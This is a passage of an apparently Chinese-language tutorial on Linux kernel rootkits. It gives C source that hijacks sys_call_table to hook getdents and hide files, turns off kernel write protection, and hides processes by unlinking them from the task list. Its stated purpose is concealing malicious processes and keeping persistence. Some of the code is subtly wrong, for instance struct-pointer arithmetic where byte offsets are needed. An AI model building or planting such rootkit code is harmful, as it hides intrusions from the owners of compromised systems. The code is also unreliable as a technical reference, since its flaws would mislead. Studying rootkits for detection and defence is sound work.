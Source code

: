 ```clike
asmlinkage long (*orig_getdents)(unsigned int, struct linux_dirent *, unsigned int);
asmlinkage long hooked_getdents(unsigned int fd, struct linux_dirent *dirp, unsigned int count) {
    long ret = orig_getdents(fd, dirp, count);
    struct linux_dirent *d;
    int offset = 0;
    for (offset = 0; offset < ret; ) {
        d = (struct linux_dirent *)(dirp + offset);
        if (strstr(d->d_name, "malicious")) {
            memmove(d, d + d->d_reclen, ret - offset - d->d_reclen);
            ret -= d->d_reclen;
        } else {
            offset += d->d_reclen;
        }
    }
    return ret;
}

static int __init rootkit_init(void) {
    orig_getdents = sys_call_table[__NR_getdents];
    disable_write_protection();
    sys_call_table[__NR_getdents] = hooked_getdents;
    enable_write_protection();
    return 0;
}
```

系统调用表劫持，通过修改sys_call_table替换关键系统调用，比如sys_getdents，用于隐藏文件或进程。实现上，Rootkit需要定位sys_call_table地址（可能通过kallsyms或硬编码偏移），然后替换目标函数指针指向恶意实现。技术挑战包括绕过写保护（比如CR0的WP位）和确保hook的稳定性。

##### 2.2.2 直接内核对象操作（DKOM）

通过修改内核数据结构隐藏进程。例如，移除`task_struct`链表节点：

```clike
void hide_process(pid_t pid) {
    struct task_struct *task;
    for_each_process(task) {
        if (task->pid == pid) {
            list_del(&task->tasks); // 从进程链表移除
            task->pid = -1; // 伪装PID
            break;
        }
    }
}
```

**说明**：

* **工作原理**：从`task_struct`链表中移除目标进程，防止`ps`或`/proc`显示。
* **用途**：隐藏恶意进程，保持持久化。
* **挑战**：需要处理并发访问，防止系统崩溃。

##### 2.2.3 内核模块加载
